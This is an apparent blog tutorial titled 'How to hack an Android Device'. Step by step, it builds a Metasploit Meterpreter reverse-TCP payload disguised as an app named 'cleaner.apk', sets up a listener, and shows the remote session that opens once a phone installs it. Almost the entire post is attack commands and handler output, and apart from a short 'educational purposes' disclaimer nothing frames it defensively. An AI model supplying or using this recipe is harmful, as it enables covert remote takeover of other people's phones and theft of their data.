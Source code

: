 ```yaml
---
layout: post
title: How to hack an Android Device
description: A tutorial for hacking an android device using Metasploit Framework on Kali Linux.
---
```


This is a tutorial for hacking an android using Metasploit Framework.

*Note: This tutorial is for educational purposes I'm not responsible for any misuse of it.*

## Requirements:
<br />
* Kali Linux
* Metasploit Framework installed.

*Note: This can be done on other distros with Metasploit package but Kali Linux gives favourable environment with all packages pre-installed.*

## Steps:
<br />
* Create an android apk file using msfvenom.
```bash
$ msfvenom -p android/meterpreter/reverse_tcp LHOST="IP ADDR"
 LPORT=4444 R > cleaner.apk
```
*Note: Replace IP ADDR with your ip address.*

* Fire up msfconsole
```bash
$ msfconsole
```
* To listen to the payload, setup a handler.
```bash
msf> use exploit/multi/handler
msf exploit(handler)> set PAYLOAD android/meterpreter/reverse_tcp
```

* Check its configurations.
```bash
msf exploit(handler)> show options
```

* Set the LHOST and LPORT you specified earlier using these commands.
```bash
msf exploit(handler)> set LHOST "IP ADDR"
msf exploit(handler)> set LPORT 4444
```

* Start the exploit
```bash
msf exploit(handler)> exploit
```
You need to transfer the apk file we generated previously to the testing phone and install it. Once that app is opened in the phone meterpreter session will start.
```bash
[*] Started reverse TCP handler on 192.168.0.100:4444
[*] Starting the payload handler...
[*] Sending stage (63194 bytes) to 192.168.0.106
[*] Meterpreter session 1 opened (192.168.0.100:4444 ->
 192.168.0.106:35897) at 2016-055-24 _05:30
meterpreter >
```
* Done!

* For options use this
```bash
meterpreter > help
```
